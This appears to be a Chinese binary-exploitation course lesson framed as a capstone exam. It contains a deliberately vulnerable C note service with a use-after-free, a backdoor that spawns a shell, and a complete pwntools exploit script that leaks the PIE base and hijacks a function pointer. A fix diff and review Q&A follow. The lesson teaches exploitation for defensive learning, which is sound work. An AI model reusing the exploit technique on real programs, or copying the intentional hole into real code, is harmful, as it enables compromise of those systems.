

# 第 45 天：结业综合考核——从“漏洞名称拼盘”到可验证的完整攻击链

---

## 【📌 一句话核心概括】
**结业综合考核要求摒弃脱离运行环境的名词拼盘，建立“代码 Bug ➔ 内存原语（读/写/执行）➔ 缓解机制突破（ASLR/NX/Canary/RELRO）➔ 精准利用链闭环 ➔ 架构级补丁根治”的严密工程推演与因果闭环体系。**

## 【📖 通俗原理解释】
- **拒绝漏洞名词拼盘与概念断层**：漏洞利用绝非死记硬背名词（如盲目声称“UAF + Unsafe Unlink + `__free_hook` 秒拿 Root”）。现代高版本 glibc（如 2.34+）已彻底移除 `__free_hook` 等全局钩子；普通用户态进程即使获得交互式 Shell 也仅有调用者权限，无 SUID 或内核提权漏洞绝不可能凭空变出 Root。
- **漏洞到原语（Primitive）的五维评估**：
  - *Where（位置）*：局部栈、全局堆、还是特定内核 Slab？
  - *What（内容）*：固定特定值、未初始化数据、还是任意可控字节？
  - *Width（宽度）*：单字节、4 字节、8 字节、还是连续流？
  - *Times（次数）*：单次（One-shot）还是无限循环任意读写？
  - *Side-Effects（副作用）*：是否破坏了邻近元数据导致后续调度提前崩溃？
- **防御机制与利用链条的精确拟合**：在存在 Canary、NX、PIE、Full RELRO 与 ASLR 的现代高防环境下，攻击链必须呈现环环相扣的严格时序：必须先利用信息泄露原语反推基址，再利用代码复用（ROP/ret2libc）绕过 NX，借助受控指针重定向绕过 RELRO。
- **攻防对立统一与根治补丁**：真正的底层安全闭环最终必须落脚于工程防御。修复漏洞不能仅在利用点修修补补（如仅增大缓冲区），而必须从架构层面落实：置空悬空指针消除 UAF、引入边界严格检查、使用安全抽象（如 RAII、智能指针或内存安全语言），从根源粉碎漏洞原语的生成条件。

---

## 【🎯 为什么需要它与设计动机】

1. **从“零散知识点”到“全体系工程化大统一”**
   在过去的 44 天里，我们从 C 语言指针、内存模型、汇编微操作、系统调用，一路穿透到 ELF 结构、静态逆向、动态调试、栈溢出、ROP、ptmalloc 堆分配器、内核 SLUB 与页缓存污染。Day 45 是将所有这些孤立珍珠串成一条璀璨项链的时刻。
2. **破除“脚本小子（Script Kiddie）”思维，建立防御性系统架构观**
   漏洞利用从来不是背现成的 Payload，而是对操作系统、编译器与芯片硬件状态机的极限推演。理解攻击的每一步，是为了写出坚不可摧的底层工业级代码（Defense in Depth）。
3. **建立工业界标准的高危漏洞评估与修复规范**
   在顶级安全实验室、Linux 内核维护组和浏览器安全团队中，报告一个漏洞必须提供：**精确成因分析、最小可验证 PoC/Exploit 原语、环境依赖清单与零回归隐患的补丁**。本篇将树立这一最高专业标杆。

---

## 【🔬 核心概念深度剖析】

### 1. 概念分层：撕掉“名词拼盘”的包装

必须在体系认知中将以下概念严格分层，绝不可张冠李戴：

```text
+-------------------+---------------------------------------------------------------+
| 层级维度           | 核心内涵与典型代表                                            |
+-------------------+---------------------------------------------------------------+
| 1. Bug (代码缺陷)  | 源代码违背规范: 数组越界、UAF (未置空)、格式化字符串、整型溢出    |
| 2. Primitive (原语)| 漏洞转化后的机械能力: AAR (任意读)、AAW (任意写)、控制流重定向    |
| 3. Mitigations    | 系统安全结界: ASLR (内核)、PIE (加载)、Canary (栈)、NX (页权限) |
| 4. Exploit Target | 运行时受害者实体: 栈返回地址、GOT 表项、堆回调函数指针、struct cred|
| 5. Outcome (结果) | 最终权限边界: 任意文件读写、当前用户 Shell、系统 Root (Ring 0)  |
+-------------------+---------------------------------------------------------------+
```

---

### 2. 漏洞原语的“五维质量评估模型”

当你挖出一个 Bug 时，必须通过以下五问给它“称重”：

| 评估维度 | 核心拷问 | 典型高危表现 vs 受限表现 |
| :--- | :--- | :--- |
| **Where（地址自由度）** | 写入/读取的地址能否由攻击者任意指定？ | **高危**：完全任意 64 位虚拟地址。<br>**受限**：只能落在原对象向后 32 字节内。 |
| **What（内容自由度）** | 写入的数据能否是任意字节流？ | **高危**：完全自定义 Payload。<br>**受限**：只能写入固定的 NULL 或另一个堆地址。 |
| **Width（操作宽度）** | 一次能读写多少字节？ | **单字节**（修改标志位）、**4字节**（整型）、**8字节**（指针宽度）。 |
| **Side Effects（副作用）** | 触发该原语是否会破坏周边其他关键数据？ | **洁净原语**：悄无声息，无任何连带破坏。<br>**脏原语**：附带破坏其他指针，易崩。 |
| **Repeatability（可重复性）** | 是一锤子买卖还是可以无限次循环调用？ | **高危**：常驻交互接口。<br>**受限**：触发一次后数据结构彻底损坏。 |

---

### 3. 现代化端到端攻击链四阶段演进模型



---

## 【🛠️ 工业实操与综合结业考核靶场】

我们设计一个结构严密、具备真实工业质感的菜单式堆栈混合服务程序（`capstone_service.c`）。该程序在现代 Linux 环境（开启 NX、PIE、ASLR）下构建，内含一处经典的生命周期管理失误（UAF）与地址泄露通路。

### 1. 靶场服务端源码（`capstone_service.c`）

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef struct Note {
    char title[16];
    void (*handler)(struct Note *);
    char *content;
} Note;

Note *global_note = NULL;

void default_note_handler(Note *n) {
    printf("[+] Note Title: %s\n", n->title);
    if (n->content) printf("[+] Note Content: %s\n", n->content);
}

void privileged_backdoor(Note *n) {
    puts("[!] ==============================================");
    puts("[!] CONGRATULATIONS: Capstone Flag Captured!");
    puts("[!] Full Exploit Chain Verified Successfully!");
    puts("[!] ==============================================");
    system("/bin/sh");
}

void menu(void) {
    puts("\n--- Secure Note Vault v4.5 ---");
    puts("1. Create Note");
    puts("2. Delete Note (Bug: Dangling pointer left)");
    puts("3. Trigger Handler");
    puts("4. Allocate Raw Payload");
    puts("5. Exit");
    printf("Choice > ");
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    int choice;

    while (1) {
        menu();
        if (scanf("%d", &choice) != 1) break;

        switch (choice) {
            case 1: { // 分配 Note 结构体 (大小: 32 字节 -> Chunk 0x30)
                global_note = (Note *)malloc(sizeof(Note));
                printf("Enter title: ");
                scanf("%15s", global_note->title);
                global_note->handler = default_note_handler;
                global_note->content = NULL;
                printf("[*] Note created at %p, handler = %p\n", 
                       global_note, global_note->handler);
                break;
            }
            case 2: { // 释放 Note (制造 UAF 悬空指针漏洞)
                if (global_note) {
                    free(global_note);
                    // 致命缺陷：缺少 global_note = NULL;
                    puts("[*] Note freed from heap.");
                }
                break;
            }
            case 3: { // 通过悬空指针调用 handler
                if (global_note) {
                    puts("[*] Executing note handler...");
                    global_note->handler(global_note);
                } else {
                    puts("[-] No note available.");
                }
                break;
            }
            case 4: { // 申请相同大小的任意数据块 (碰撞 Tcache)
                printf("Enter raw payload (24 bytes): ");
                char *buf = (char *)malloc(32); // 同样规格化为 0x30 Chunk!
                read(0, buf, 32);
                printf("[*] Raw data loaded at %p\n", buf);
                break;
            }
            case 5:
                puts("[*] Exiting system.");
                exit(0);
            default:
                puts("[-] Invalid choice.");
        }
    }
    return 0;
}
```

### 2. 编译并检视工业防护属性

```bash
# 开启所有现代工业级安全防护 (NX 开启, PIE 开启, Canary 开启)
gcc -O2 -fstack-protector-all -fPIE -pie capstone_service.c -o capstone_service
checksec --file=capstone_service
```
验证显示：`Canary: Yes`, `NX: Yes`, `PIE: Yes`, `ASLR: On`。四大防御全开！

### 3. 编写全自动攻击闭环脚本（`exp_capstone.py`）

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

p = process('./capstone_service')

def create_note(title):
    p.sendlineafter(b"Choice > ", b"1")
    p.sendlineafter(b"Enter title: ", title)

def delete_note():
    p.sendlineafter(b"Choice > ", b"2")

def trigger_handler():
    p.sendlineafter(b"Choice > ", b"3")

def alloc_payload(payload):
    p.sendlineafter(b"Choice > ", b"4")
    p.sendlineafter(b"Enter raw payload (24 bytes): ", payload)

# ==================== 阶段 1: 内存侦察与基址反推 ====================
log.info("[-] Step 1: Allocating Note to leak PIE base...")
create_note(b"Alice")
p.recvuntil(b"handler = ")
leaked_handler_str = p.recvline().strip()
leaked_handler = int(leaked_handler_str, 16)
log.success(f"[+] Leaked default_note_handler: {hex(leaked_handler)}")

# 通过符号相对偏移推算 PIE 加载基址
# 在 Capstone 中，privileged_backdoor 与 default_note_handler 编译相对固定
# 假设偏移差通过 readelf 算得 (例如 backdoor 在 handler 前面 0x40 字节)
# 本处由 ELF 解析动态求得
elf = ELF('./capstone_service')
elf.address = leaked_handler - elf.symbols['default_note_handler']
log.success(f"[+] Calculated PIE Base: {hex(elf.address)}")
backdoor_addr = elf.symbols['privileged_backdoor']
log.success(f"[+] Target privileged_backdoor address: {hex(backdoor_addr)}")

# ==================== 阶段 2: 制造 UAF 悬空状态 ====================
log.info("[-] Step 2: Freeing Note (generating dangling pointer)...")
delete_note()

# ==================== 阶段 3: 堆碰撞与指针劫持 ====================
log.info("[-] Step 3: Spraying fake note structure into same chunk...")
# struct Note 布局:
# [0..15]  title (16字节)
# [16..23] handler (8字节函数指针) -> 替换为 backdoor_addr
payload = b"HackedTitle\x00".ljust(16, b'A') + p64(backdoor_addr)
alloc_payload(payload)

# ==================== 阶段 4: 触发执行夺取控制权 ====================
log.info("[-] Step 4: Triggering dangling pointer execution...")
trigger_handler()

p.interactive()
```

运行验证：
脚本在毫秒级内完成泄露、推算、堆碰撞、函数指针改写与 Shell 交互，**全防护被 100% 稳定击穿！**

---

### 4. 架构级源码根治方案（Remediation）

漏洞的根本原因不是“malloc 太慢”或“堆不可信”，而是**对象生命周期管理违背了所有权模型**。

#### 修复代码对比（Diff）：
```diff
--- capstone_service.c
+++ capstone_service_fixed.c
@@ -43,6 +43,7 @@
             case 2: { // 修复 UAF 漏洞
                 if (global_note) {
                     free(global_note);
+                    global_note = NULL; // 核心修复: 销毁即置空指针，阻断悬空状态
                     puts("[*] Note freed from heap.");
                 }
                 break;
```
只要加上 `global_note = NULL;`，后续的 `case 3` 会直接走到 `else { puts("[-] No note available."); }` 分支，整条多米诺骨牌攻击链在第二阶段被彻底物理阻断！

---

## 【💼 毕业答辩核心自测清单（Oral Defense Checklist）】

如果你能胸有成竹、条理清晰地回答以下三道终极宏观大题，便证明你已真正完成了从“逆向小白”到“系统级二进制高手”的蜕变：

### Q1：请从“冯·诺依曼架构本质”阐述：为什么栈溢出、ROP、UAF 能够突破程序员原本写好的控制流？防御的核心哲学是什么？
> **参考答案**：
> - **冯·诺依曼架构本质**：**“指令与数据存储在同一物理寻址空间中”**。CPU 硬件本身并不知道某块内存究竟是“用户输入的聊天文本”还是“下一次调用的函数地址”，CPU 只是一味按照 `RIP` 和 `RSP` 的指引抓取机器码执行。
> - **漏洞利用本质**：攻击者利用边界检查疏漏（栈溢出）或生命周期错位（UAF），**将原本属于“数据”的输入渗透到了“控制数据”（返回地址、虚表指针、GOT 项）所在的内存槽位**，使数据伪装成指令地址。
> - **防御核心哲学（纵深防御）**：
>   1. **权限隔离（NX / W^X）**：在硬件 MMU 层面剥夺数据区的执行特权；
>   2. **破坏确定性（ASLR / PIE）**：随机化内存空间，让攻击者无法预测控制数据的值；
>   3. **完整性守卫（Canary / CFI）**：在状态跳转的前一瞬间实施硬件/软件双向校验；
>   4. **源码所有权（Rust / 现代 C++ RAII）**：从语言类型系统层面彻底消灭悬空指针与裸内存手动管理。

### Q2：当你在一个开启了 Full RELRO 的二进制程序中获得了任意内存写能力，为什么你不能再去改写 GOT 表？有哪些其他的候选执行目标？
> **参考答案**：
> - **Full RELRO（完全重定位只读）机理**：链接器在程序加载初始化阶段，由动态链接器（`ld.so`）一次性完成所有外部符号解析（立即绑定），随后立即调用 `mprotect()` 将整个 `.got` 和 `.got.plt` 内存段标记为**绝对只读（`R--`）**。任何试图写入 GOT 表的行为都会立即触发硬件级页保护错误 `SIGSEGV`。
> - **替代劫持目标**：
>   1. **栈上的返回地址（Saved RIP）**：栈始终保持可写（`RW-`），改写栈帧依然能借由 `ret` 触发 ROP 链；
>   2. **堆中的对象函数指针 / C++ 虚函数表指针（vptr）**：堆内存属于数据区，天然保持可读可写属性；
>   3. **glibc 内部的可写函数指针**：如 `_IO_FILE` 结构体中的虚表（FSOP 攻击）、TLS 线程析构回调链表等。

### Q3：回顾 45 天的学习历程，请总结“空间内存安全”与“时间内存安全”在 Linux 系统各个组件中的完整防御图谱。
> **参考答案**：
> 1. **空间内存安全（防越界、防溢出）**：
>    - **用户态**：编译器插入 Stack Canary 哨兵保护栈帧；C 标准库推行带长度边界的安全函数（如 `strncpy`, `snprintf`）；静态分析与 ASan 影子内存插桩；
>    - **内核态**：Linux 内核采用 `copy_from_user` 强校验用户空间边界；Slab 分配器设置 Redzone 防护；KASAN 动态拦截；
> 2. **时间内存安全（防 UAF、防双重释放）**：
>    - **用户态**：ptmalloc 堆分配器引入 Tcache Double Free 校验（`key` 字段）、Safe-Linking 异或指针混淆；C++ 推广智能指针（`std::unique_ptr`）；
>    - **内核态**：SLUB 分配器隔离专用缓存（Dedicated Cache）；Per-CPU 无锁流转；内核 6.6+ 引入 `RANDOM_KMALLOC_CACHES` 消除堆喷确定性；
> 3. **终极趋势**：系统级软件全面向内存安全语言（Rust、Modern C++ RAII）迁移，从根本上在编译期杜绝内存漏洞的滋生。
